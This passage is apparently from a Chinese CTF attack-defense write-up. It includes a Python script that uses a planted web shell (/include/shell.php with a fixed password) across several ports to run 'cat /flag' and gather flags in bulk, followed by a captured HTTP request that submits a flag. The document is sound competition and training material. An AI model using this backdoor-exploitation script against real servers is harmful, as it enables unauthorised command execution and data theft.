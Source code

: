 ### 2.后门批量getflag

针对端口变化利用后门批量获取flag

```
import requests

url1="http://192.168.182.130:"
url2=""

flaglist=[]

path="/include/shell.php"
passwd="admin_ccmd"


#payload = {passwd: 'system(\'cat /f*\');'}
payload = {passwd: 'system(\'cat /flag\');'}

i = 0

for url2 in range(8801,8805):
    url = url1 + str(url2) +path

    res=requests.post(url,payload)
    try:
        print(url1 + str(url2),res.text)
        # flag存入列表中
        flaglist.append(str(res.text))
        #print(flaglist[i])
        i += 1
    except:
        pass
```

### 3.利用后门批量getflag并提交

burp抓包，发现flag以json形式传输

```
POST /api/flag HTTP/1.1
Host: 192.168.182.130:39999
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: 9ad36c305d6a2d2514434a4c10e7e13f
Content-Length: 55
Origin: http://192.168.182.130:39999
Connection: close
Referer: http://192.168.182.130:39999/

{"flag":"SL{7a2ecc20361b7a104798b6bba6222b3972e114a2}"}
```
